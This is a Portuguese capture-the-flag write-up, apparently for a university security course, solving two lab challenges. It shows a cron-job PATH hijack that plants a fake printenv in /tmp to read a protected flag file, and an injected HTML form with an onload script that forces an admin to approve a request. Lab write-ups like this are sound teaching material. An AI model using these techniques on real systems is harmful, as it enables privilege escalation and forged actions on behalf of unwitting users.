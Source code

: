 # Desafios Extra/Opcionais

## British Punctuality

Explorando inicialmente o servidor, encontramos no diretório `home/flag_reader` um script `my_script.sh` que faz uso de um executável `/home/flag_reader/reader` cujo código fonte podemos ler no ficheiro `main.c`. Não temos permissões para escrever para nenhum destes ficheiros. Encontramos também  um diretório `flags` onde se encontra a flag que procuramos (`/flags/flag.txt`), no entanto, como seria esperado, não temos permissões para aceder a este diretório.  

`my_script.sh`  
```shell
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```  

`main.c`  
```c
#include <stdio.h>
#include <unistd.h>

void my_big_congrats(){
    puts("TODO - Implement this in the near future!");
}

int main() {
    puts("I'm going to check if the flag exists!");

    if (access("/flags/flag.txt", F_OK) == 0) {
        puts("File exists!!");
        my_big_congrats();
    } else {
        puts("File doesn't exist!");
    }

    return 0;
}
```  

 
```bash
nobody@330311abc802:/home/flag_reader$ cd ../..
nobody@330311abc802:/$ ls -d -l flags
drwxr-x--- 2 root flag_reader 60 Dec 17 16:15 flags
nobody@330311abc802:/$ cd flags
bash: cd: flags: Permission denied
```  

Destas informações percebemos que para chegar à flag vamos precisar das permissões do utilizador `flag_reader` (`root` também funcionaria).  

Atendendo ao nome do desafio e há descrição *This challenge runs with a strict schedule* surge-nos a ideia do `cron`, um *job scheduller* para sistemas Unix.   

No diretório `etc/cron.d` encontramos um ficheiro `my_cron_script`.  

`my_cron_script`  
```shell
PATH=/bin:/usr/bin:/usr/local/bin

* * * * * flag_reader /bin/bash -c "/home/flag_reader/my_script.sh > /tmp/last_log"
```  

Interpretando o ficheiro percebemos que, a cada minuto, o script `my_script.sh` é corrido e o output do mesmo é escrito no ficheiro `/tmp/last_log`. Sabemos também que isto é feito com as permissões do utilizador `flag_reader`. Assim, a solução passa por encontrar e explorar uma vulnerabilidade no script que nos permita ler o ficheiro que contém a flag. No script é utilizado o comando `export`, pelo que concluimos que podemos, ao criar o ficheiro `tmp/env` alterar (por um minuto) as variáveis de ambiente do utilizador `flag_reader`. Isto é importante pois logo depois é utilizado o comando `printenv`, sem a indicação do caminho para o binário.  

```bash  
nobody@330311abc802:/$ whereis printenv
printenv: /usr/bin/printenv
```  

Juntando estas informações, podemos criar um novo ficheiro `printenv`, e adicionar o seu caminho à variável `PATH` para que seja utilizado no lugar do binário predefinido, podendo correr qualquer código shell com as permissões que queremos.

```bash
nobody@330311abc802:/tmp$ echo "PATH=/tmp:$PATH" > env
nobody@330311abc802:/tmp$ echo "cat /flags/flag.txt" > printenv
```

Depois do script ser executado basta ler o conteúdo do ficheiro `/tmp/last_log` e uma das linhas será a flag.

## Apply For Flag II

Verificou-se a existência do ID do pedido - `<requestID>` - e de um _form_ onde é possível inserir texto, que à partida não é devidamente tratado. Para efeitos de teste, deu-se um _input_ qualquer (_string_ "justification" no caso), que é verificado pelo _admin_ na página `http://ctf-fsi.fe.up.pt:5005/request/<requestID>`. 

![](./screenshots/apply_for_flag2_1.png) 

![](./screenshots/apply_for_flag2_2.png) 

Na página utilizada pelo _admin_, existe o botão `Give the flag` cujo código fonte se encontra no _screenshot_ abaixo. O objetivo é fazer o administrador clicar nesse botão.

![](./screenshots/apply_for_flag2_3.png) 

Para isso, copiou-se o código fonte do botão, alterou-se o atributo `action` e removeu-se o `disabled`. Para além disso, acrescentou-se o _script_ que realiza a ação de carregar no botão ao carregar a página. Este foi o _input_:

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<requestID>/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
</form>
<script> 
    window.onload = function(){
        document.getElementById('giveflag').click();
    } 
</script>
``` 

- Nota: neste caso `<requestID>` é `fa9d70d9d2ed6c76ac2f46f6f203bb80b6f46dbb`.

![](./screenshots/apply_for_flag2_5.png) 

Clicou-se no botão `Submit` e deu origem ao seguinte erro:

![](./screenshots/apply_for_flag2_8.png) 

Para contornar isso, não se permitiu os sites usarem _JavaScript_ no _browser_. No _Google Chrome_ é possível fazer isso em `chrome://settings/content/javascript` como demonstra o _screenshot_ abaixo.

![](./screenshots/apply_for_flag2_4.png) 

![](./screenshots/apply_for_flag2_6.png) 

![](./screenshots/apply_for_flag2_7.png) 



